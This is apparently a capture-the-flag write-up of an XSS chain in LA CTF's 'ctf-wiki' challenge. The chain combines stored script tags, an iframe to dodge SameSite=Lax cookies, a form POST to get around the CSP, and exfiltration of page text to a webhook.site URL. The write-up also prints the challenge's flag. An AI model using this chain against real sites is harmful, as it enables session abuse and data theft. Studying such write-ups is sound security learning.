




written by 

We have an xss (sorta):

on the `/create`, in the description that supports markdown, we can put in script tags. 

If we view the page *without our authentication cookies* (like an incognito tab), we get an xss.

However, if you are logged in (i.e. if there are cookies), we get redirected to the edit:


@app.get("/view/<pid>")
def page(pid):
    if session.get("username") is not None and session.get("password") is not None:
        return redirect("/edit/{}".format(pid))


So how do we access `/view/<pid>` without the session cookies?


app.config["SESSION_COOKIE_SAMESITE"] = "Lax"


iframes only send SameSite=None cookies so if we set up our own website and use an iframe the cookies will not be sent:


<iframe src="https://ctf-wiki.chall.lac.tf/view/<pid>"></iframe>


Now that we have xss inside our iframe, we need to somehow access `/flag` *with* the cookies.

We can use window.open(), but we need to POST flag. We can't use scripts either due to the content security policy:

@app.after_request
def apply_csp(response):
    if session.get("username") is not None and session.get("password") is not None:
        response.headers[
            "Content-Security-Policy"
        ] = "default-src 'self'; img-src *; font-src https://fonts.gstatic.com https://fonts.googleapis.com; style-src 'self' https://fonts.googleapis.com"
    return response


If we *edit* the opened window document:




We get

Refused to execute inline script because it violates the following Content Security Policy directive: "default-src 'self'". Either the 'unsafe-inline' keyword, a hash ('sha256-74J0XhNNZyeyG2hc6SR5UoGLY+N1BT22Dw9QC4ZeN/Y='), or a nonce ('nonce-...') is required to enable inline execution. Note also that 'script-src' was not explicitly set, so 'default-src' is used as a fallback.



So in order to send a POST request without scripts, we use a form and submit it.




We see that there is a `POST /flag` being sent (I went a bit overkill and track traffic via Requestly):

Now we just need to steal the `w.document.body.innerText`




we get a request:

https://webhook.site/<id>/flag=lactf%7Bk4NT_k33P_4lL_my_F4v0r1T3_ctF3RS_S4m3_S1t3%7D
lactf{k4NT_k33P_4lL_my_F4v0r1T3_ctF3RS_S4m3_S1t3}


